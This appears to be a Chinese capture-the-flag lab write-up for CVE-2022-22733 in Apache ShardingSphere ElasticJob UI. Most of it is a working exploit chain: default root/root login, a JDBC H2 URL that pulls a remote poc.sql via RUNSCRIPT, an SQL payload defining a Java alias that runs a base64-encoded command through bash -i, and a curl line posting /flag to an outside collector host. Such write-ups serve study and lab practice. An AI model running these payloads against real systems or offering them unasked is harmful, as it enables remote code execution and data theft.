 平台接收到flag



## CVE-2022-22733 Apache ShardingSphere ElasticJob UI 敏感信息泄漏漏洞

*靶标介绍：*

Apache ShardingSphere ElasticJob-UI由于返回 token 中包含了管理员密码，攻击者可利用该漏洞在授权的情况下，构造恶意数据执行权限绕过攻击，最终获取服务器最高权限。

```
curl -d @/flag xxx.requestrepo.com
```

poc.sql

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "123";}';CALL EXEC ('bash -c {echo,base64命令}|{base64,-d}|{bash,-i}')

```

/#/login root/root

/data-source

![image-20230719144744886](%E9%9D%B6%E5%9C%BA.assets/image-20230719144744886.png)



```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://xxx:8000/poc.sql'
```
